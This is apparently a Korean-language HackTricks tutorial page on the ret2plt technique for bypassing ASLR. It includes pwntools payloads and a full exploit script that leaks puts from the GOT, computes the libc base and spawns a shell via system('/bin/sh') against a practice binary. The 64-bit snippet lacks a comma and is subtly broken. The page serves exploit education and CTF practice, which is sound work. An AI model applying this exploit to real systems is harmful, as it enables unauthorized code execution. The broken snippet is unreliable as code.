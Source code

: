 # Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이 기술의 목표는 **ASLR을 우회하기 위해 PLT의 함수에서 주소를 누출하는 것**입니다. 예를 들어, libc의 `puts` 함수 주소를 누출하면, **`libc`의 기본 주소를 계산하고** 다른 함수에 접근하기 위한 오프셋을 계산할 수 있습니다. 

이는 `pwntools` 페이로드를 사용하여 수행할 수 있습니다 ([**여기에서**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
**`puts`**(PLT의 주소를 사용하여)가 GOT(전역 오프셋 테이블)에 위치한 `puts`의 주소로 호출되는 방식을 주목하십시오. 이는 `puts`가 `puts`의 GOT 항목을 출력할 때, 이 **항목이 메모리에서 `puts`의 정확한 주소를 포함하게 되기 때문입니다**.

또한 `main`의 주소가 익스플로잇에 사용되어 `puts`가 실행을 마치면 **바이너리가 종료되는 대신 `main`을 다시 호출합니다**(따라서 누출된 주소는 계속 유효합니다).

{% hint style="danger" %}
이것이 작동하기 위해서는 **바이너리가 PIE로 컴파일될 수 없거나, PLT, GOT 및 main의 주소를 알기 위해 **누출을 찾아야 합니다**. 그렇지 않으면 먼저 PIE를 우회해야 합니다.
{% endhint %}

[**이 우회에 대한 전체 예제를 여기에서 찾을 수 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). 이것은 그 **예제**의 최종 익스플로잇이었습니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## 다른 예제 및 참고자료

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64비트, ASLR 활성화, PIE 없음, 첫 번째 단계는 canary의 0x00 바이트까지 오버플로우를 채운 다음 puts를 호출하여 leak하는 것입니다. canary를 사용하여 ROP 가젯을 생성하여 GOT에서 puts의 주소를 leak하기 위해 puts를 호출하고, 그 다음 `system('/bin/sh')`를 호출하는 ROP 가젯을 생성합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64비트, ASLR 활성화, canary 없음, 자식 함수에서 main의 스택 오버플로우. GOT에서 puts의 주소를 leak하기 위해 puts를 호출하는 ROP 가젯을 호출한 다음 one gadget을 호출합니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
